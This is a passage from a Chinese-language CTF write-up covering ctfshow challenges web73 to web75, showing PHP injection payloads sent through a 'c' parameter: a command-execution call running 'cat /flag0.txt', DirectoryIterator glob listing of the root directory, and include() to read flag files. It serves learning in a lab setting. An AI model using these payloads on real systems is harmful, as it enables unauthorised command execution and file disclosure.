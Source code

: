 我们直接将上文通过post，经过url编码后传入

得到flag

我们就可以通过修改

```
ctfshow("cat /flag0.txt");ob_end_flush();
```

中的值达到命令执行

---

#### web73

我们可以用上一题的exp直接执行一下看看

![image-20240429091021331](image/image-20240429091021331.png)

发现没法用

在用之前的方法

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```

![image-20240429091222630](image/image-20240429091222630.png)

```
c=include("/flagc.txt");exit(0);
```

这次include可以使用了

![image-20240429091306824](image/image-20240429091306824.png)

---

#### web74

和上一题的payload一样，本题中的flag文件为flagx.txt

![image-20240429091557400](image/image-20240429091557400.png)

---

#### web75

使用下面的命令查看目录

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```

![image-20240429091928333](image/image-20240429091928333.png)

include无法读取
